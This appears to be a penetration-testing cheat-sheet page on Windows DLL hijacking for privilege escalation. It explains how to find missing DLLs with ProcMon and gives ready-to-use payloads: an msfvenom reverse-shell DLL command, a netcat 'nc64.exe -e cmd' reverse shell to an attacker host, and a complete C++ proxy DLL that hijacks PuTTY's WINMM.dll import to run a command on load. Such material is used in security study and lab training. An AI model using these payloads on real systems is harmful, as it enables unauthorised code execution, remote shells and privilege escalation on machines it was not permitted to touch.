 # DLL Hijacking

## Theory

DLL is a shared library of dynamic links, containing classes, functions, resources, variables, all that kind of stuff. When Windows starts a service or application, it looks for DLLs. BUT, if the DLL does not exist, then we can try hijacking it.

## Verification

{% tabs %}
{% tab title="Blind" %}
To use DLL Hijacking for elevation of privileges, we will need to investigate an application and known vulnerabilities and DLLs and find a DLL that is not present on the system to which we have write access.

The following are the steps to perform DLL hijacking.

* Identify the vulnerable application and its location.
* Identify the PID of the application.
* Identify the vulnerable DLLs that can be hijacked, checking if they do not exist and if we have write permissions to the directory being searched.
* Use MSFVenom or other payload creation tools to create a malicious DLL.
* Replace the original DLL with the malicious DLL.
* Done.

To begin privilege escalation with DLL Hijacking, we need to identify an application and a scheduled task that we can attack. Once we have identified our target, we can use the power of Google to search for possible vulnerable DLLs associated with the application, since we cannot use tools like ProcMon to facilitate the process.

By searching Google, `<application> DLL Hijacking`, we can see several articles and blog posts that can guide us in the right direction and investigate the application for us.

If there is no research on the application available, say a proprietary application, you can try downloading the application from the server or find an identical copy on the Internet for download that will allow you to search for the vulnerable DLLs on your local machine.
{% endtab %}

{% tab title="Manual" %}
For this case, we are going to need a Windows system that works as an exploit development environment. After we have it, we will download the ProcMon and the binary with the same version:

```shell
https://download.sysinternals.com/files/ProcessMonitor.zip
```

{% hint style="warning" %}
Remember that we cannot use ProcMon.exe on the compromised machine as it requires administrator privileges.
{% endhint %}

We transfer the ProcMon.exe and the binary to test to our local machine to look for possible non-existent DLLs.

When running ProcMon.exe, we will add the following filters:

* Result - is - NAME NOT FOUND

![Result is NAME NOT FOUND](../../../../.gitbook/assets/result\_is\_name\_not\_found.png)

* Path - ends with - .dll

![Path ends with .dll](../../../../.gitbook/assets/path\_ends\_with\_dll.png)

From here, we have to start capturing with ProcMon.exe, start the binary to test, and then stop capturing. If there is a missing DLL, we can escalate privileges.
{% endtab %}
{% endtabs %}

## Privilege Escalation

{% tabs %}
{% tab title="msfvenom" %}
We create the malicious DLL:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f dll -o shell.dll
```

We transfer the malicious DLL to the victim machine and then:

```shell
# The name must be the same as the DLL that the application/program is looking for:
copy C:\Windows\Temp\shell.dll <PATH TO DIRECTORY>/<NAME>.dll
```
{% endtab %}

{% tab title="C" %}
```
# Repo: https://github.com/sagishahar/scripts
https://raw.githubusercontent.com/sagishahar/scripts/master/windows_dll.c
```

![](../../../../.gitbook/assets/windows\_dll\_c.png)

```c
cmd /k C:\Windows\Temp\nc64.exe -e cmd <LHOST> <LPORT>
```

We cross-compiled the C code. You can see the process [here](../../../exploits/compiling-exploits.md#compilation-for-windows).
{% endtab %}

{% tab title="Stealthy" %}
{% hint style="info" %}
Example with the DLL WINMM.dll, from the binary PuTTY.exe
{% endhint %}

If we already know the non-existent DLL, we can see what functions it is importing:

```shell
# Visual Studio command prompt:
dumpbin /imports <PATH>/PuTTY.exe
```

![](../../../../.gitbook/assets/winmm\_dll\_import.png)

We see that WINMM.dll is using the PlaySoundA function. Therefore, we need to look to see if this function is documented. In this case, it is: [https://docs.microsoft.com/en-us/previous-versions/dd743680(v=vs.85)](https://docs.microsoft.com/en-us/previous-versions/dd743680\(v=vs.85\))

```cpp
BOOL PlaySound(
   LPCTSTR pszSound,
   HMODULE hmod,
   DWORD   fdwSound
);
```

At this point, we can create a malicious binary, where the aforementioned function is exported and in the DllMain(), inject a command.

```cpp
#include <Windows.h>

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
    STARTUPINFO info={sizeof(info)};
    PROCESS_INFORMATION processInfo;

    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
        CreateProcess(
	    "<COMMAND>", 
	    "", NULL, NULL, TRUE, 0, NULL, NULL, 
	    &info, &processInfo);
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

extern "C" {
    __declspec(dllexport) BOOL WINAPI PlaySoundA(
                                        LPCSTR pszSound,
					HMODULE hmod,
					DWORD fdwSound) {
        return TRUE;
    }
}
```

We compile it and that's it.
{% endtab %}
{% endtabs %}

And the last thing left is to stop and start the service/program or wait for the task to run some task and is looking for a DLL.
